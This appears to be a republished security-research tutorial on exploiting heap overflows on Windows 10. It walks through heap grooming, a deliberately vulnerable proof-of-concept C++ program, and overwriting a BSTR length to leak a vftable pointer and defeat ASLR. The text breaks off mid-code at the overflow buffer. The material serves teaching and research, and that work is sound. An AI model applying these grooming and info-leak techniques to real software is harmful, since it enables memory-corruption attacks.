# Heap Overflow Exploitation on Windows 10 Explained

* This was written in Jun 12 2019 by Wei Chen (_sinn3r)
* Originally published [here](https://www.rapid7.com/blog/post/2019/06/12/heap-overflow-exploitation-on-windows-10-explained/)
* Credit: Steven Seeley (mr_me), Peter Van Eeckhoutte (corelanc0d3r)

## Introduction

I remember the first time I attempted to exploit a memory corruption vulnerability. It was a [stack buffer overflow](https://www.rapid7.com/blog/post/2019/02/19/stack-based-buffer-overflow-attacks-what-you-need-to-know/) example I tried to follow in this book called “[Hacking: The Art of Exploitation](https://www.amazon.com/Hacking-Art-Exploitation-w-CD/dp/1593270070/ref=sr_1_fkmr1_1?crid=2LB6LFSUT9B4E&keywords=hacking+the+art+of+exploitation+first+edition&qid=1559257506&s=books&sprefix=hacking+the+art+of%2Cstripbooks%2C164&sr=1-1-fkmr1).” I fought for weeks, and I failed. It wasn't until months later that I tried a different example on the internet and finally popped a shell. I was so thrilled I got it to work.

More than 10 years later, I have some memory corruption exploits under my belt, from small-third-party applications to high-profile products such as Microsoft, Adobe, Oracle, Mozilla, and IBM. However, memory corruption for me is still quite a challenge, despite having a soft spot for it. And I don't think I'm the only person to feel this way.

LiveOverflow, who is most well known for his hacking videos on YouTube, [shares the same feeling](https://www.youtube.com/watch?v=5tEdSoZ3mmE) about approaching browser exploitation in the early stage, saying:

I know the theory. It's just a scary topic, and I don't even know where to start.

My impression is that many people certainly feel this way about heap corruptions, which are indeed difficult because they are unpredictable in nature, and the mitigations are always evolving. About every couple of years, some major security improvement would be introduced, likely terminating a vulnerability class or an exploitation technique. Although a Black Hat talk may follow explaining that, those talks are probably overwhelming for the most part. People may get a grasp of the theory, it still remains a scary topic, and they still don't even know where to start.

As LiveOverflow points out, there is a lot of value in explaining how you mastered something, more than just publishing an exploit. Being a former [Corelan](https://www.corelan-training.com/index.php/about-2/) member, I know that some of the best exploit tutorials from Corelan started off this way, with Peter Van Eeckhoutte and his team researching the topic, documenting the process, and in the end, sharing that with the public. By doing so, you encourage the community to engage on the topic, and one day, someone is going to advance and share something new in return.

## Learning by creating

Learning a vulnerability from a real application can be difficult because the codebase may be complex. Often, you may get away with examining a good crash, get EIP, add some shellcode, and get a working exploit, but you may not fully understand the actual problem as quickly. If the developers didn't spend just a few days building the codebase, there certainly isn't any magic to absorb so much internal knowledge about it in such a short amount of time.

One way that guarantees I will learn about a vulnerability is by figuring out how to create it and mess with it. That's what we'll do today. Since heap corruption is such a scary topic, let's start with a heap overflow on Windows 10.

## Heap overflow example

This is a basic example of a heap overflow. Clearly, it is trying to pass a size of 64 bytes to a smaller heap buffer that is only 32 bytes.

```c
#include 

int main(int args, char** argv) {
  void* heap = (void*) malloc(32);
  memset(heap, 'A', 64);
  printf("%s\n", heap);
  free(heap);
  heap = NULL;
  return 0;
}
```

In a debugger, you will be presented with an error of 0xc0000374, indicating a heap corruption exception that is due to a failed inspection on the heap, resulting in a call to RtlpLogHeapFailure. A modern system is really good at protecting its heaps nowadays, and every time you see this function call is pretty much a sign that you have been defeated. Exploitability depends more on how much control you have on the application, and there is no silver bullet on the OS level like in [previous years](https://www.fuzzysecurity.com/tutorials/mr_me/2.html).

Client-side applications (such as a browser, PDF, Flash, etc.) tend to be excellent targets due to the support of scripting languages. It’s very likely you have indirect control of an array, a HeapAlloc, a HeapFree, a vector, strings, etc., which are all good tools you need to instrument a heap corruption—except you have to find them.

## A difficult first step to success

In C/C++ applications, a programming error may create opportunities like allowing the program to read the wrong memory, writing to the wrong place, or even executing the wrong code. Normally, we just call these conditions crashes, and there is actually an industry out there of people totally obsessed with finding and controlling them. By taking over the "bad" memory the program isn't supposed to read, we have witnessed [Heartbleed](https://en.wikipedia.org/wiki/Heartbleed). If the program writes to it, you have a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow). If you can combine all of them on a remote Windows machine, that's just as bad as [EternalBlue](https://www.rapid7.com/blog/post/2017/04/18/the-shadow-brokers-leaked-exploits-faq/).

Whatever your exploit is, an important first step usually involves setting up the right environment in memory to land that attack. Kind of like in social engineering, you have this thing called pretexting. Well, in exploit writing, we have various names: [Feng shui](https://en.wikipedia.org/wiki/Heap_feng_shui), [massaging](http://actes.sstic.org/SSTIC07/Rump_sessions/SSTIC07-rump-Richarte-Heap_Massaging.pdf), [grooming](https://googleprojectzero.blogspot.com/2015/06/what-is-good-memory-corruption.html), etc. Every program loves a good massage, right?

### Windows 7 vs. Windows 10

The Windows 10 internals seem significantly different from their predecessors. You might have noticed some recent high-profile exploits that were all done against older systems. For example, Google Chrome's [FileReader Use After Free](https://blog.exodusintel.com/2019/03/20/cve-2019-5786-analysis-and-exploitation/) was documented to work best on Windows 7, the BlueKeep RDP flaw was mostly proven in public to work on Windows XP, and Zerodium [confirmed RCE](https://twitter.com/cBekrar/status/1128712967845961728) on Windows 7.

Predicable heap allocations is an important trait for heap grooming, so I wrote a test below for both systems. Basically, it creates multiple objects and tracks where they are. There is also a Summerize() method that tells me all the offsets found between two objects and the most common offset.

```c
void SprayTest() {
  OffsetTracker offsetTracker;
  LPVOID* objects = new LPVOID[OBJECT_COUNT];

  for (int i = 0; i < OBJECT_COUNT; i++) {
    SomeObject* obj = new SomeObject();
    objects[i] = obj;
    if (i > 0) {
      int offset = (int) objects[i] - (int) objects[i-1];
      offsetTracker.Register(offset);
      printf("Object at 0x%08x. Offset to previous = 0x%08x\n", (int) obj, offset);
    } else {
      printf("Object at 0x%08x\n", (int) obj);
    }
  }

  printf("\n");
  offsetTracker.Summerize();
```

The results for Windows 7:



Basically, my test tool is suggesting that 97.8% of the time, my heap allocations look like this consecutively:

```
[ Object ][ 0x30 of Bytes ][ Object ]
```

For the exact same code, Windows 10 behaves very differently:



Wow, **only 6%**. That means if I had an exploit, I wouldn't have any reliable layout to work with, and my best choice would make me fail 94% of the time. I might as well not write an exploit for it.

## The right way to groom

As it turns out, Windows 10 requires a different way to groom, and it is slightly more complicated than before. After having multiple discussions with Peter from Corelan, the conclusion is that we shouldn’t bother using low-fragmentation heap, because that is what messing with our results.

### Front- vs. back-end allocator

Low fragmentation heap is a way to allow the system to allocate memory in certain predetermined sizes. It means when the application asks for an allocation, the system returns the minimum available chunk that fits. This sounds really nice, except on Windows 10, it also tends to avoid giving you a chunk that has the same size as its neighbor. You can check whether a heap is being handled by LFH using the following in WinDBG:

```
dt _HEAP [Heap Address]
```

There is a field named FrontEndHeapType at offset 0x0d6. If the value is 0, it means the heap is handled by the backend allocator. 1 means LOOKASIDE. And 2 means LFH. Another way to check if a chunk belongs to LFH is:

```
!heap -x [Chunk Address]
```

The backend allocator is actually the default choice, and it takes at least **18 allocations** to enable LFH. Also, those allocations don't have to be consecutive—they just need to be the same size. For example:

```c
#define CHUNK_SIZE 0x300

int main(int args, char** argv) {
  int i;
  LPVOID chunk;
  HANDLE defaultHeap = GetProcessHeap();
  for (i = 0; i < 18; i++) {
    chunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    printf("[%d] Chunk is at 0x%08x\n", i, chunk);
  }

  for (i = 0; i < 5; i++) {
    chunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    printf("[%d] New chunk in LFH : 0x%08x\n", i ,chunk);
  }

  system("PAUSE");
  return 0;
}
```

The code above produced the following results:



The two loops do the same thing in code. The first iterates 18 times, and the second is five times. By observing those addresses, there are some interesting facts:

- In the first loop:
  - Index 0 and index 1 have a huge gap of 0x1310 bytes.
  - Starting index 2 to index 16, that gap is consistently 0x308 bytes.
  - Index 16 and index 17 get a huge gap again with 0x3238 bytes.
- In the second loop:
  - Index 0 is where LFH kicks in.
  - Each gap is random, usually far away from each other.

It appears the sweet spot where we have most control is between index 2 to 16 in the first loop, before LFH is triggered.

### The beauty of overtaking

A feature of the Windows heap manager is that it knows how to reuse a freed chunk. In theory, if you free a chunk and allocate another for the exact same size, there is a good chance it will take over the freed space. Taking advantage of this, you could write an exploit without heap spraying. I can't say exactly who was the first person to apply this technique, but Peter Vreugdenhil from Exodus was certainly one of the first to talk about it publicly. See: [HAPPY NEW YEAR ANALYSIS OF CVE-2012-4792](http://blog.exodusintel.com/2013/01/02/happy-new-year-analysis-of-cve-2012-4792/).

To verify this, let's write another C code:

```c
#define CHUNK_SIZE 0x300

int main(int args, char** argv) {
  int i;
  LPVOID chunk;
  HANDLE defaultHeap = GetProcessHeap();

  // Trigger LFH
  for (i = 0; i < 18; i++) {
    HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
  }

  chunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
  printf("New chunk in LFH : 0x%08x\n", chunk);

  BOOL result = HeapFree(defaultHeap, HEAP_NO_SERIALIZE, chunk);
  printf("HeapFree returns %d\n", result);

  chunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
  printf("Another new chunk : 0x%08x\n", chunk);

  system("PAUSE");
  return 0;
}
```

On Windows 7, it seems this technique is legit (both addresses are the same):


For the exact same code, the outcome is quite different on Windows 10:



However, our hope is not lost. An interesting behavior by the Windows heap manager is that apparently for efficiency purposes, it can split a large free chunk in order to service smaller chunks the application requests. That means the smaller chunks may coalesce (merge), making them adjacent from each other. To achieve that, the overall steps kind of play out like the following.

**1. Allocate chunks not handled by LFH**

- Try to pick a size that is not used by the application, which tends to be a larger size. In our example, let's say our size choice is 0x300.
- Allocate no more than 18 chunks, probably a minimum of five.

**2. Pick a chunk that you want to free**

- The ideal candidate is obviously not the first chunk or the 18th chunk.
- The chunk you choose should have the same offset between its previous one and also the next one. So, that means you want to make sure you have this layout before you free the middle one:

```
[ Chunk 1 ][ Chunk 2 ][ Chunk 3 ]
```

**3. Make a hole**

- By freeing the middle chunk, you technically create a hole that looks like this:

```
[ Chunk 1 ][ Free chunk ][ Chunk 3 ]
```

**4. Create smaller allocations for a coalescing miracle**

- Usually, the ideal chunks are actually objects from the application. An ideal one, for example, is some kind of object with a size header you could modify. The structure of a BSTR fits perfectly for this scenario:

```
[ 4 bytes (length prefix) ][ WCHAR* + \0 ]
```

- It may take some trials and errors to craft the right object size, and make them fall into the hole you created. If done right, within 10 allocations, at least one will fall into the hole, which creates this:
- **5. Repeat step 3 (another hole)**
  - Another hole will be used to place objects we want to leak. Your new layout might look like this:

```
[ Chunk 1 ][ BSTR ][ Free Chunk ]
```

**6. Repeat step 4 (creates objects to leak)**

- In the last free chunk, we want to fill that with objects we wish to leak. To create these, you want to pick something that allows you control a heap allocation, where you can save pointers for the same object (which can be anything). A vector or something array-like would do great for this kind of job.
- Once again, you may need to experiment with different sizes to find the one that wants to be in the hole.
- The new allocation should take over the last chunk like so:

```
[ Chunk 1 ][ BSTR ][ Array of pointers ]
```

### The implementation

This proof-of-concept demonstrates how the above procedure may be implemented in C++:

```cpp
#define CHUNK_SIZE 0x190
#define ALLOC_COUNT 10

class SomeObject {
public:
  void function1() {};
  virtual void virtual_function1() {};
};

int main(int args, char** argv) {
  int i;
  BSTR bstr;
  HANDLE hChunk;
  void* allocations[ALLOC_COUNT];
  BSTR bStrings[5];
  SomeObject* object = new SomeObject();
  HANDLE defaultHeap = GetProcessHeap();

  for (i = 0; i < ALLOC_COUNT; i++) {
    hChunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    memset(hChunk, 'A', CHUNK_SIZE);
    allocations[i] = hChunk;
    printf("[%d] Heap chunk in backend : 0x%08x\n", i, hChunk);
  }

  HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[3]);

  for (i = 0; i < 5; i++) {
    bstr = SysAllocString(L"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    bStrings[i] = bstr;
    printf("[%d] BSTR string : 0x%08x\n", i, bstr);
  }

  HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[4]);

  int objRef = (int) object;
  printf("SomeObject address for Chunk 3 : 0x%08x\n", objRef);
  vector array1(40, objRef);
  vector array2(40, objRef);
  vector array3(40, objRef);
  vector array4(40, objRef);
  vector array5(40, objRef);
  vector array6(40, objRef);
  vector array7(40, objRef);
  vector array8(40, objRef);
  vector array9(40, objRef);
  vector array10(40, objRef);

  system("PAUSE");
  return 0;
}
```

For debugging reasons, the program logs where the allocations are when you run it:



To verify things are in the right place, we can look at it with WinDBG. Our proof-of-concept actually aims index 2 as the BSTR chunk, so we can check the memory dump for that:



It looks like we have executed that well—all three chunks are arranged correctly. If you have read this far without falling asleep, congratulations! We are finally ready to move on and talk about everyone's favorite part of exploitation, which is overflowing the heap (on Windows 10).

## Exploiting heap overflow

I think at this point, you might have guessed that the most painful part about overflowing the heap isn't actually overflowing the heap. It is the time and effort it takes to set up the desired memory layout. By the time you are ready to exploit the bug, you are already mostly done with it. It would be fair to say that the more preparation you do on grooming, the more reliable it is.

To recap, before you are ready to exploit a heap overflow to cause an information leak, you want to make sure you have control of a layout that should be similar to this for an information leak:

```
[ Chunk 1 ][ BSTR ][ Array of pointers ]
```

### A precise overwrite

For this exploitation scenario, the most important objective for our heap overflow is actually this: Precisely overwrite the BSTR length. The length field is a four-byte value found before the BSTR string:



In this example, you want to change the hex value 0xF8 to something bigger like 0xFF, which allows the BSTR to read 255 bytes. It is more than enough to read past the BSTR and collect data in the next chunk. Your code may look like this:



As far as the application is concerned, the BSTR now contains some pointers we want. We are finally ready to claim our reward.

### Reading the leaked data

When you are reading the BSTR with vftable pointers in it, you want to figure out exactly where those four bytes are, then substring it. With these four raw bytes you have leaked, you want to convert them into an integer value. The following example demonstrates how to do that:

```cpp
std::wstring ws(bStrings[0], strSize);
std::wstring ref = ws.substr(120+16, 4);
char buf[4];
memcpy(buf, ref.data(), 4);
int refAddr = int((unsigned char)(buf[3]) << 24 | (unsigned char)(buf[2]) << 16 | (unsigned char)(buf[1]) << 8 | (unsigned char)(buf[0]));
```

Other languages would really approach conversion in a similar way. Since JavaScript is quite a popular tool for heap exploitation, here's another example to demonstrate:

```js
var bytes = "AAAA";
var intVal = bytes.charCodeAt(0) | bytes.charCodeAt(1) << 8 | bytes.charCodeAt(2) << 16 | bytes.charCodeAt(3) << 24;

// This gives you 1094795585
console.log(intVal);
```

Once you have the vftable address, you can use that to calculate the image's base address. An interesting piece of information you want to know is that the location of vftables are predetermined in the .rdata section, which means as long as you don't recompile, your vftable should stay there:



This makes calculating the image base address a lot easier:

```
Offset to Image Base = VFTable - Image Base Address
```

For the final product for our information leak, here's the source code:

```cpp
#define CHUNK_SIZE 0x190
#define ALLOC_COUNT 10

class SomeObject {
public:
  void function1() {};
  virtual void virtual_function1() {};
};

int main(int args, char** argv) {
  int i;
  BSTR bstr;
  BOOL result;
  HANDLE hChunk;
  void* allocations[ALLOC_COUNT];
  BSTR bStrings[5];
  SomeObject* object = new SomeObject();
  HANDLE defaultHeap = GetProcessHeap();
  if (defaultHeap == NULL) {
    printf("No process heap. Are you having a bad day?\n");
    return -1;
  }

  printf("Default heap = 0x%08x\n", defaultHeap);

  printf("The following should be all in the backend allocator\n");
  for (i = 0; i < ALLOC_COUNT; i++) {
    hChunk = HeapAlloc(defaultHeap, 0, CHUNK_SIZE);
    memset(hChunk, 'A', CHUNK_SIZE);
    allocations[i] = hChunk;
    printf("[%d] Heap chunk in backend : 0x%08x\n", i, hChunk);
  }

  printf("Freeing allocation at index 3: 0x%08x\n", allocations[3]);
  result = HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[3]);
  if (result == 0) {
    printf("Failed to free\n");
    return -1;
  }

  for (i = 0; i < 5; i++) {
    bstr = SysAllocString(L"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    bStrings[i] = bstr;
    printf("[%d] BSTR string : 0x%08x\n", i, bstr);
  }

  printf("Freeing allocation at index 4 : 0x%08x\n", allocations[4]);
  result = HeapFree(defaultHeap, HEAP_NO_SERIALIZE, allocations[4]);
  if (result == 0) {
    printf("Failed to free\n");
    return -1;
  }

  int objRef = (int) object;
  printf("SomeObject address : 0x%08x\n", objRef);
  printf("Allocating SomeObject to vectors\n");
  vector array1(40, objRef);
  vector array2(40, objRef);
  vector array3(40, objRef);
  vector array4(40, objRef);
  vector array5(40, objRef);
  vector array6(40, objRef);
  vector array7(40, objRef);
  vector array8(40, objRef);
  vector array9(40, objRef);
  vector array10(40, objRef);

  UINT strSize = SysStringByteLen(bStrings[0]);
  printf("Original String size: %d\n", (int) strSize);
  printf("Overflowing allocation 2\n");

  char evilString[] =
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
    "BBBBBBBBBBBBBBBB"
